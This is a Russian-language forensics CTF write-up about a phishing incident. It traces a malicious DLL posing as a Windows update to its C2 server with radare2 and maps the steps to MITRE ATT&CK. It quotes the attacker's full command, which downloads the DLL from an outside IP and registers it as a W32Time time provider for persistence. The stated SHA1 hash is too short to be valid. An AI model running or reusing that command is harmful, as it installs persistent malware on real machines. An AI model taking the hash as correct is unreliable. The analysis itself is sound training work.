



# Отчет по CTF-таску:

**Категория:** Forensics


## Описание задачи
Задача: Недавно в нашем SOC возникли необычные входящие и исходящие соединения. Мы подозреваем, что один из наших аналитиков мог допустить существенную ошибку. 
Проведя расследование, мы обнаружили, что аналитик получил электронное письмо. 
Он рассказал нам, что начал исследовать электронное письмо как обычный день и как обычный билет, но после этого произошла какая-то вредоносная активность. 
Не могли бы вы помочь нам разобраться, что пошло не так, и выявить ошибку нашего аналитика? 
Формат флага: PWNSEC{SHA1HashOfMaliciousFileDelieved_MitreidForDeliveryOfTheMaliciousFile_MitreForPersistence_C2ip_C2port}


## Артефакты
*   **SHA1 хеш вредоносной DLL:** "6f4fda52dccf52ef968fde2e35a4539a8472"
*   **IP-адрес C2 сервера:** "20.0.145.51"
*   **Порт C2:** "1337"

## Процесс анализа

### 1. Первичный осмотр
При изучении двух файлов было обнаружено, что в первом присутствуют признаки загрузки, а во втором — подозрительные команды.




### 2. Получение хеша
Исследовав файлы, которые лежат в таске, можно найти такую команду ```C:\Windows\System32\cmd.exe /c "powershell iwr http://20.0.145.51/windows_update/windows_update.dll -OutFile C:\Windows\Upd.dll; reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Time\TimeProviders\CMDProvider /v DllName /d C:\Windows\Upd.dll /f```. Теперь узнаем как загрузили файл и получим его хеш-сумму.
Подозрительный файл был загружен по ссылке: ```http://20.0.145.51/windows_update/windows_update.dll```
Хеш-сумма была получена с помощью команды:
```sha1sum windows_update.dll``` -> получаем ```6f4fda52dccf52ef968fde2e35a4539a8472```

### 3. Поиск сетевых индикаторов (C2)
Для статического анализа DLL использовалась утилита radare2 и команда afl для просмотра списка функций
```r2 -A windows_update.dll```




После просмотра списка, читаем Entry Point 0x3088813d4, прочитаем ее с помощью ```pdf @```. Далее был выполнен анализ потока управления для поиска сетевых подключений. В результате были обнаружены строки с IP-адресом и портом C2-сервера. Находились они в ячейке памяти 0х3088813ef и 0х3088813fd.





### 4. Картирование тактик MITRE ATT&CK
Delivery (Доставка): T1036.008 (Masquerading: Masquerade File Type) — вредоносная DLL была замаскирована под легитимный файл обновления Windows.

Persistence (Закрепление): T1547.003 (Boot or Logon Autostart Execution: Time Providers) — использование службы времени Windows (W32Time) для выполнения DLL при загрузке системы.

### Выводы
В ходе анализа были выявлены основные индикаторы компрометации и тактики злоумышленников. Задача была успешно решена, отработан навык статического анализа с использованием radare2 и картирования техник MITRE.

# Использованные инструменты
Radare2 (дизассемблер)
Wget/curl (загрузка файла)
Sha1sum (вычисление хеша)
